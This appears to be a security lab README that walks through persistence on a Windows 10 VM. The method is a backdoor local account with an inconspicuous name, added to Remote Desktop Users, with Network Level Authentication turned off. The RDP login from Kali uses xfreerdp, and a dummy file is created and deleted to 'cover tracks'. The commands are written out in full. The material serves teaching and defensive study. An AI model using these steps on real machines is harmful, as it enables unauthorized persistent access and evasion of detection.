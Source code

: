 # Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open PowerShell as Administrator in Windows 10 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users" and "Remote Desktop Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   net localgroup "Remote Desktop Users" svc_network /add
   ```
4. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
   ![image](https://github.com/user-attachments/assets/2775be67-8ec5-46b1-842a-2b6fefe6dc84)
5. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
6. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ```
7. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
   ```
   sudo ufw status
   sudo ufw allow 3389/tcp
   sudo ufw reload
   sudo ufw status
   ```
8. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
   ```
   sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
   ```
9. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
   ```
   echo "Sensitive data" > C:\Windows\Temp\dummymaliciousfile.txt
   ```
10. To cover up the tracks, delete the dummy file
   ```
   del C:\Windows\Temp\dummymaliciousfile.txt
   ```
11. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
12. To remove the created account in Windows 10 VM, run the command in PowerShell opened with administrator privileges
    ```
    Remove-LocalUser -Name "username"
    ```

